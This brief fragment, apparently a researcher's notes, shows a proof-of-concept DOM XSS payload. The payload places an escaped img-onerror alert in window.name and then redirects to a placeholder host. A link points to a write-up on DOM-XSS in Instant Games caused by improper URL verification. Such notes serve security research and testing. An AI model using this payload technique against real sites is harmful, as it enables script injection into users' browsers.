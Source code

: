 ## case1
```
<script>window.name = '">\u003cimg\u0020src\u0020onerror=alert(12345678)\u003e';location = 'http://host/path/';</script>

```

## case2
[DOM-XSS in Instant Games due to improper verification of supplied URLs](https://ysamm.com/?p=779)

